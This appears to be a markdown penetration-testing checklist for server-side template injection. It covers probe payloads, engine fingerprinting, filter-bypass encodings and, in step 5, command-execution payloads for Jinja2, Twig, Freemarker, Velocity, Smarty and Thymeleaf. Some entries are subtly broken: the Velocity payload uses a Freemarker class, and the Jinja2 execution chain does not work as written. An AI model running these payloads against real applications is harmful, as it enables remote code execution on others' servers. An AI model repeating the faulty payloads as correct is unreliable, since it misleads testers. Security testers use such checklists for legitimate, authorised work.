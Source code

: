 1. **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept user input for template rendering.
    - [ ] Review source code (if available) to understand template rendering mechanisms.
    - [ ] Check for user inputs in templates, URLs, headers, and request bodies.

2. **Basic SSTI Testing**
    - Test common SSTI payloads to identify template engine and injection points:
        - [ ] `{{7*7}}`
        - [ ] `${7*7}`
        - [ ] `<%= 7 * 7 %>`
        - [ ] `#{7*7}`
        - [ ] Try injecting payloads in different user inputs (e.g., form fields, query parameters).

3. **Detecting Template Engines**
    - Identify the template engine by using specific payloads for known engines:
        1. Jinja2 (Python):
            - [ ] `{{7*'7'}}`
            - [ ] `{{config.items()}}`
        2. Twig (PHP):
            - [ ] `{{7*7}}`
            - [ ] `{{_self.env.globals}}`
        3. Freemarker (Java):
            - [ ] `${7*7}`
            - [ ] `${"freemarker.template.utility.Execute"?new()}`
            - [ ] `<#assign ex = "freemarker.template.utility.Execute"?new()>`
        4. Velocity (Java):
            - [ ] `#set($x = 7 * 7)`
            - [ ] `$class.inspect("java.lang.Runtime").newInstance().exec("ls")`
        5. Smarty (PHP):
            - [ ] `{$smarty.version}`
            - [ ] `{if 7*7}`
        6. Thymeleaf (Java):
            - [ ] `${7*7}`
            - [ ] `th:text="${T(java.lang.Runtime).getRuntime().exec('ls')}"`

4. **Payloads**
    - Test payloads that can bypass filters and restrictions:
        - [ ] `{{7*'7'}}`
        - [ ] `${7*'7'}`
        - [ ] `<%= 7 * '7' %>`
    - [ ] Use concatenation to bypass filters: `{{7*('7')}}`, `${7*('7')}`
    - [ ] Inject payloads in nested contexts to test for complex injections.

5. **Exploiting SSTI**
    - Test for code execution:
        - [ ] Python (Jinja2): `{{config.from_object('os').popen('ls').read()}}`
        - [ ] PHP (Twig):  `{{_self.env.globals.system('ls')}}`
        - [ ] Java (Freemarker): `<#assign ex = "freemarker.template.utility.Execute"?new()> ${ex("ls")}`
        - [ ] Java (Velocity): `#set($x = "freemarker.template.utility.Execute") $x.new().exec("ls")`
        - [ ] PHP (Smarty): `{system('ls')}`
        - [ ] Java (Thymeleaf): `th:text="${T(java.lang.Runtime).getRuntime().exec('ls')}"`

6. **Bypassing Input Validation**
    - Test for input validation bypass using encoding and escaping:
        - [ ] URL encoding: `%7B%7B7*7%7D%7D`
        - [ ] HTML encoding: `&#123;&#123;7*7&#125;&#125;`
    - Use different template syntax to bypass filters:
        - [ ] `{{7*7}}`
        - [ ] `${7*7}`
        - [ ] `<%= 7 * 7 %>`

7. **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about SSTI vulnerabilities.
    - [ ] Look for error messages that disclose template engine details or execution errors.
    - [ ] Verify if application stack traces are exposed in responses.